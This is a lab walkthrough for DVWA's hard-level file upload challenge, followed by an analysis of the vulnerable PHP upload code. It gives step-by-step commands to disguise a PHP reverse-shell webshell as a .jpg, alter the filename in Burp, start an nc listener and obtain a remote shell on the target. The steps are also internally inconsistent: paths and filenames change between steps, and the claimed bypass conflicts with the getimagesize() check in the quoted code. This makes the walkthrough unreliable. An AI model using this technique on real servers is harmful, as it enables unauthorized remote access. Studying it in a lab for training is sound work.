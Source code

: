 # File Upload - Hard

---

## Attack Steps

1. Open Burp Suite

    - Start a **temporary project**

2. Navigate to the proxy tab
    - Shortcut `CTRL + SHIFT + P`

3. Ensure the intercept is OFF 
    - Open the chromium browser

4. Navigate to DVWA and set difficulty to hard 

    - http://<ip address>/dvwa
    - Login
    ```bash 
    admin
    password
    ```
    - Navigate to DVWA Security on the left menu 
    - Set security level to hard

5. Navigate to the target webpage 
    - http://<ip address>/dvwa/vulnerabilites/upload

6. Make a copy of `php_reverse_shell.php` and save as a jpg file:

    - `CTRL + ATL + T` to open a terminal 

    ```bash 
    sudo cp /usr/share/webshells/php/php_reverse_shell.php php_reverse_shell.jpg
    ```

7. Prepare for upload:
    
    - Return to target page
    - Browse for `php_reverse_shell.jpg`
    - Select file 
    - DO NOT UPLOAD 

8. Turn intercept on 

    - On Burp Suite turn the intercept on to catch request

9. Upload file:

    - Request will be caught by Burp

10. Edit request in Burp Proxy: 
    
    - Scroll down to filename
    - Change from
    ```bash 
    filename="php_reverse_shell.jpg"
    ```
    - to:
    ```bash 
    filename="php_reverse_shell.php.jpg"
    ```
    
11. Forward the request

    - Turn intercept off

12. On the kali terminal start a listener 

    ```bash 
    nc -lvnp 1234 # If you changed the port number in the webshell file then change it here 
    # l - listener mode
    # v - verbose output 
    # n - skip DNS resolution (faster) 
    # p <port number> - Listen on port number assigned # Change to your port number
    ```

13. Navigate to the uploaded webshell 

    - The uploaded file was saved to http://<ip address>/dvwa/hackable/upload/php-reverse-shell.php.jpg

    - Alternatively run `curl -s http://<ip address>/dvwa/hackable/upload/php-reverse-shell.php.jpg` in another terminal 

14. On the netcat listener look a connection
    
    - The should be output similar to the following 
    ```bash 
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    sh: no job control in this shell 
    sh-3.2$ 
    ```

    - We can now run commands on the DVWA machine

## Vulnerable Code Analysis


### File 
`/var/www/dvwa/vulnerabilities/upload/source/hard`

#### Key Vulnerability Points:

```php 
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
	// Where are we going to be writing to?
	$target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
	$target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

	// File information
	$uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
	$uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
	$uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
	$uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

	// Is it an image?
	if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
		( $uploaded_size < 100000 ) &&
		getimagesize( $uploaded_tmp ) ) {

		// Can we move the file to the upload folder?
		if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
			// No
			$html .= '<pre>Your image was not uploaded.</pre>';
		}
		else {
			// Yes!
			$html .= "<pre>{$target_path} succesfully uploaded!</pre>";
		}
	}
	else {
		// Invalid file
		$html .= '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
	}
}

?>
```

### Explanation
### Explanation

- The code takes the uploaded file directly from the user and constructs the target path for saving the file:

    ```php
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename($_FILES['uploaded']['name']);
    ```

- It extracts file information including the filename, file extension, size, and temporary file path:

    ```php
    $uploaded_name = $_FILES['uploaded']['name'];
    $uploaded_ext  = substr($uploaded_name, strrpos($uploaded_name, '.') + 1);
    $uploaded_size = $_FILES['uploaded']['size'];
    $uploaded_tmp  = $_FILES['uploaded']['tmp_name'];
    ```

- The script validates the file by checking:

  - The file extension is one of `jpg`, `jpeg`, or `png` (case insensitive):

    ```php
    strtolower($uploaded_ext) == "jpg" || strtolower($uploaded_ext) == "jpeg" || strtolower($uploaded_ext) == "png"
    ```

  - The file size is less than 100,000 bytes.

  - The file is a valid image by using `getimagesize()` on the temporary file:

    ```php
    getimagesize($uploaded_tmp)
    ```

- If all validations pass, the file is moved to the upload directory:

    ```php
    move_uploaded_file($uploaded_tmp, $target_path)
    ```

- Success or failure messages are displayed based on whether the file was moved.

- If any validation fails, an error message is shown indicating only JPEG or PNG images are accepted.

### Causes:

- **Filename still not fully sanitised:** Using `basename()` only strips directory paths but doesn’t prevent dangerous filenames or double extensions (e.g., `shell.php.jpg`).

- **File saved with original name:** No renaming or randomisation, so potential overwriting and easier attacker targeting remain.

- **Upload directory is web accessible:** Uploaded files can still be accessed and potentially executed if a malicious file bypasses checks.

- **No checks against double extensions beyond extension extraction:** The script assumes the last extension is trustworthy.

